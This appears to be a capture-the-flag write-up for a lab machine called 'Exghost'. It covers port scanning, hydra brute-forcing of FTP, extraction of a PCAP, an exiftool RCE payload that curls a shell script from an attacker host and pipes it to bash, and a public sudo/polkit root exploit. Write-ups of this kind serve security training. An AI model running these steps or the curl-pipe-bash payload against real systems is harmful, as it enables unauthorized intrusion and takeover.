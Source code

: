 # Exghost

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 -Pn 192.168.183.183
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-11 20:36 +08
Nmap scan report for 192.168.183.183
Host is up (0.18s latency).
Not shown: 65532 filtered tcp ports (no-response)
PORT   STATE  SERVICE
21/tcp open   ftp
80/tcp open   http
```

FTP and HTTP.

### Port 80 Dead End

Port 80 just shows a 403 page:

<figure><img src="../../../.gitbook/assets/image (602).png" alt=""><figcaption></figcaption></figure>

Running directory scans only shows one directory:

```
$ gobuster dir -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u http://192.168.183.183 -t 100      
===============================================================
Gobuster v3.3
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.183.183
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.3
[+] Timeout:                 10s
===============================================================
2023/07/11 20:54:36 Starting gobuster in directory enumeration mode
===============================================================
/uploads              (Status: 301) [Size: 320] [--> http://192.168.183.183/uploads/]
```

### FTP Brute Force -> Wireshark

Anonymous credentials don't work with this FTP system, and because we had no other choice, I started brute forcing the FTP login with `hydra`. This took quite a while, but eventually I found some credentials:

{% code overflow="wrap" %}
```
$ hydra -I -L /usr/share/seclists/Usernames/cirt-default-usernames.txt -P /usr/share/seclists/Passwords/cirt-default-passwords.txt 192.168.183.183 ftp

[21][ftp] host: 192.168.183.183  login: user  password: system
```
{% endcode %}

Great! Now we can login and view the files present:

```
$ ftp 192.168.183.183 
Connected to 192.168.183.183.
220 (vsFTPd 3.0.3)
Name (192.168.183.183:kali): user
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> passive
Passive mode: off; fallback to active mode: off.
ftp> ls
200 EPRT command successful. Consider using EPSV.
150 Here comes the directory listing.
-rwxrwxrwx    1 0        0          126151 Jan 27  2022 backup
```

The `backup` file was a PCAP file:

{% code overflow="wrap" %}
```
$ file backup         
backup: pcap capture file, microsecond ts (little-endian) - version 2.4 (Ethernet, capture length 262144)
```
{% endcode %}

We can open this up in `wireshark` and view the TCP streams. Within TCP Stream 1, we can find this HTTP request:

<figure><img src="../../../.gitbook/assets/image (1661).png" alt=""><figcaption></figcaption></figure>

Seems that we are able to upload files through POST requests at `exiftest.php`:

```
$ curl http://192.168.183.183/exiftest.php
There is no file to upload.
```

From the PCAP file, we can actually export the `exiftest.php` file:

<figure><img src="../../../.gitbook/assets/image (557).png" alt=""><figcaption></figcaption></figure>

Interestingly the second `exiftest.php` was the response, and here's the contents:

```
$ cat exiftest\(1\).php 
File uploaded successfully :)<pre>ExifTool Version Number         : 12.23
File Name                       : phpopnW14.jpg
Directory                       : /var/www/html/uploads
File Size                       : 14 KiB
File Modification Date/Time     : 2022:01:27 14:47:37+02:00
File Access Date/Time           : 2022:01:27 14:47:37+02:00
File Inode Change Date/Time     : 2022:01:27 14:47:37+02:00
File Permissions                : -rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : inches
X Resolution                    : 120
Y Resolution                    : 120
Image Width                     : 253
Image Height                    : 257
Encoding Process                : Baseline DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 253x257
Megapixels                      : 0.065
</pre>
```

### File Upload -> Exiftool RCE

It appears that the website is accepting images, and then running `exiftool` on it as a response. This version of `exiftool` is vulnerable to an RCE exploit.&#x20;

{% embed url="https://github.com/OneSecCyber/JPEG_RCE" %}

We can create the payload by following the PoC:

```
$ exiftool -config eval.config runme.jpg -eval='system("curl 192.168.45.184/shell.sh|bash")'
    1 image files updated
```

We can then upload it using this script:

```python
import requests
url = 'http://192.168.183.183/exiftest.php'
files = {'myFile': open('runme.jpg', 'rb')}
print(requests.post(url, files=files).text)
```

After uploading it, we would get a shell as `www-data`:

<figure><img src="../../../.gitbook/assets/image (1641).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Sudo Exploit -> Root

I ran a `linpeas.sh` scan on the machine. This found that `sudo` was outdated:

```
[+] Sudo version
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-version                 
Sudo version 1.8.31
```

{% embed url="https://github.com/joeammond/CVE-2021-4034" %}

We can just download the Python script and execute it to get a `root` shell:

<figure><img src="../../../.gitbook/assets/image (3425).png" alt=""><figcaption></figcaption></figure>

